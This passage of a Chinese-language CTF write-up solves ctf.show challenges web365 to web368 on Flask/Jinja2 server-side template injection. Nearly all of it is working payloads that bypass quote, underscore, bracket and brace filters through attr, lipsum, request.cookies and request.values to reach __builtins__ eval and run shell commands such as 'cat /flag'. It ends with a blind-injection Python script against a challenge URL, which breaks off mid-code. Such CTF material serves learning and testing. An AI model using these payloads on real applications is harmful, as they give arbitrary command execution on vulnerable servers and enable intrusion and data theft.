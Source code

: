 - 用`getitem`

```py
/?name={{x.__init__.__globals__.__getitem__(request.cookies.b).eval(request.cookies.a)}}
Cookie:
a=__import__('os').popen('cat /flag').read();b=__builtins__;
```

- 用`request.values`

```py
/?name={{x.__init__.__globals__.__getitem__(request.values.b).eval(request.values.a)}}&b=__builtins__&a=__import__('os').popen('tac /flag').read()
```

#### 过滤单双引号和args和[]和_

web366

`lipsum`和`attr`过滤器

`{{().__class__}}`-->`{{()|attr("__class__")}}`

```py
/?name={{(lipsum|attr(request.values.a)).os.popen(request.values.b).read()}}&a=__globals__&b=cat /flag

/?name={{(x|attr(request.cookies.x1)|attr(request.cookies.x2)|attr(request.cookies.x3))(request.cookies.x4).eval(request.cookies.x5)}}
Cookie:
x1=__init__;x2=__globals__;x3=__getitem__;x4=__builtins__;x5=__import__('os').popen('cat /flag').read()
```

web367

同上,多过滤了一个os,用request即可

#### 过滤`{{}}`

web368

- 使用`{%%}`和`print`

`/?name={%print((x|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3))(request.values.x4).eval(request.values.x5))%}&x1=__init__&x2=__globals__&x3=__getitem__&x4=__builtins__&x5=__import__('os').popen('cat /flag').read()`

或者盲注

```py
import requests
import urllib
import time

url = 'http://36f667b8-3e4a-4639-ba96-cff20a8e3c86.challenge.ctf.show/'
alp = 'abcdefghijklmnopqrstuvwxyz0123456789-}{'

flag = ''
for i in range(1,100):  
    for j in alp:
        # time.sleep(0.1)
        payload = "{% set flag = (x|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3))(request.values.x4).eval(request.values.x5)%}{% if flag == request.values.x6%}evo1ution{%endif%}"
        params = {
            'name': payload,
            'x1': '__init__',
            'x2': '__globals__',
            'x3': '__getitem__',
            'x4': '__builtins__',
```